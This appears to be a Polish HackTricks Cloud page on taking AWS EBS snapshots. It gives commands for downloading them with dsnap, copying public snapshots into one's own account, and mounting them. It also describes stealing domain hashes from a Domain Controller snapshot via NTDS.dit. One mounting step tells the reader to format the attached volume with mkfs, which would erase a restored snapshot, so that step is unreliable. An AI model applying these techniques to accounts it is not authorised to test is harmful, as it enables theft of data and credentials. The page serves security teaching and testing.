 # AWS - Zrzut migawki EBS

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Sprawdzanie migawki lokalnie
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Uwaga**. `dsnap` nie pozwoli ci pobrać publicznych migawek. Aby to obejść, możesz skopiować migawkę do swojego osobistego konta i pobrać ją:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Aby uzyskać więcej informacji na temat tej techniki, sprawdź oryginalne badania na stronie [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Możesz to zrobić za pomocą Pacu, korzystając z modułu [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Sprawdzanie migawki w AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Zamontuj go w instancji EC2 pod Twoją kontrolą** (musi być w tym samym regionie co kopia zapasowa):

Krok 1: Przejdź do EC2 -> Woluminy i utwórz nowy wolumin o preferowanej wielkości i typie.

Aby wykonać tę czynność, postępuj zgodnie z poniższymi poleceniami:

* Utwórz wolumin EBS dołączony do instancji EC2.
* Upewnij się, że wolumin EBS i instancja znajdują się w tej samej strefie.

Krok 2: Kliknij prawym przyciskiem na utworzonym woluminie i wybierz opcję "dołącz wolumin".

Krok 3: Wybierz instancję z pola tekstowego instancji.

Aby wykonać tę czynność, użyj poniższego polecenia:

* Dołącz wolumin EBS.

Krok 4: Zaloguj się do instancji EC2 i wyświetl dostępne dyski za pomocą polecenia `lsblk`.

Krok 5: Sprawdź, czy wolumin zawiera jakiekolwiek dane za pomocą polecenia `sudo file -s /dev/xvdf`.

Jeśli wynik powyższego polecenia pokazuje "/dev/xvdf: dane", oznacza to, że wolumin jest pusty.

Krok 6: Sformatuj wolumin do systemu plików ext4 za pomocą polecenia `sudo mkfs -t ext4 /dev/xvdf`. Alternatywnie, możesz również użyć formatu xfs za pomocą polecenia `sudo mkfs -t xfs /dev/xvdf`. Zauważ, że powinieneś użyć albo ext4, albo xfs.

Krok 7: Utwórz katalog o wybranej nazwie, aby zamontować nowy wolumin ext4. Na przykład, możesz użyć nazwy "newvolume".

Aby wykonać tę czynność, użyj polecenia `sudo mkdir /newvolume`.

Krok 8: Zamontuj wolumin do katalogu "newvolume" za pomocą polecenia `sudo mount /dev/xvdf /newvolume/`.

Krok 9: Zmień katalog na katalog "newvolume" i sprawdź miejsce na dysku, aby zweryfikować zamontowanie woluminu.

Aby wykonać tę czynność, użyj poniższych poleceń:

* Zmień katalog na `/newvolume`.
* Sprawdź miejsce na dysku za pomocą polecenia `df -h .`. Wynik tego polecenia powinien pokazać wolne miejsce w katalogu "newvolume".

Możesz to zrobić za pomocą Pacu, korzystając z modułu `ebs__explore_snapshots`.

## Sprawdzanie migawki w AWS (za pomocą wiersza poleceń)
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Kopia cienia

Każdy użytkownik AWS posiadający uprawnienie **`EC2:CreateSnapshot`** może ukraść hashe wszystkich użytkowników domenowych, tworząc **zrzut Domain Controllera**, montując go do kontrolowanej przez siebie instancji i **eksportując plik rejestru NTDS.dit i SYSTEM** do użycia z projektem secretsdump Impacket.

Możesz użyć tego narzędzia do zautomatyzowania ataku: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) lub możesz skorzystać z jednej z poprzednich technik po utworzeniu zrzutu.

## Referencje

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
